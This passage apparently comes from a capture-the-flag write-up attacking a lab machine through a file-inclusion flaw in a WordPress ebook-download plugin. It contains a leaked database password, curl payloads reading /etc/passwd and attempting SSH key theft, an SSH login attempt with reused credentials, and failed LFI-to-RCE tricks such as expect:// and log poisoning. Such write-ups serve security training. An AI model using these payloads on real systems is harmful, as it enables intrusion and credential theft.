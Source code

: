 ```bash
  38   │ define( 'DB_COLLATE', '' );
```
We know now the credential `wordpressuser:MQYBJSaD#DxG6qbm` for the database `wordpress`. Let's try this credential on the `/wp-admin` too: Failure.

As we retrieved the file `wp-config.php` (Shown in the PoC of the exploit), we can try retrieving the `/etc/passwd` file:
```bash
❯ curl "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd" > Results/passwd
❯ cat Results/passwd | grep "sh$"
/etc/passwd/etc/passwd/etc/passwdroot:x:0:0:root:/root:/bin/bash
user:x:1000:1000:user:/home/user:/bin/bash
```
So we enumerated two users with a shell, `root` and `user`.

## User shell
First let's check if the user has a file `id_rsa` we can retrieve:
```bash
❯ curl "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/home/user/.ssh/id_rsa"
/home/user/.ssh/id_rsa/home/user/.ssh/id_rsa/home/user/.ssh/id_rsa<script>window.close()</script>%
```
That ended up in failure, either the user has no file `id_rsa` or the file is not readable by wordpress.

Something we haven't tried with the credentials found previously was connecting via ssh to `user` with the password `MQYBJSaD#DxG6qbm`:
```bash
❯ ssh user@10.10.11.125
The authenticity of host '10.10.11.125 (10.10.11.125)' can't be established.
ED25519 key fingerprint is SHA256:nWEef2HgKX/Bf8LkwYV7ra0nu0Zm23UhLPbYiu6IO5M.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.125' (ED25519) to the list of known hosts.
user@10.10.11.125's password: # MQYBJSaD#DxG6qbm
Permission denied, please try again.
user@10.10.11.125's password: 
^C
```
We didn't succeed. At this point there is nothing more we can do with credentials, so we are going to try upgrading the LFI vulnerability to a RCE vulnerability:
- PHP wrapper `expect://whoami`: Fail
  ```bash
  ❯ curl "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=expect://whoami"
  expect://whoamiexpect://whoamiexpect://whoami<script>window.close()</script>
  ```
- ssh log injection: Fail
  ```bash
  ❯ curl "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/var/log/auth.log"
  /var/log/auth.log/var/log/auth.log/var/log/auth.log<script>window.close()</script>
  ```
- apache log injection: Fail
  ```bash
  ❯ curl "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/var/log/apach2/error.log"
  /var/log/apach2/error.log/var/log/apach2/error.log/var/log/apach2/error.log<script>window.close()</script>
  ```
- `/proc/self/environ`: Fail
  ```bash
  ❯ curl "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/self/environ"
  /proc/self/environ/proc/self/environ/proc/self/environ<script>window.close()</script>
  ```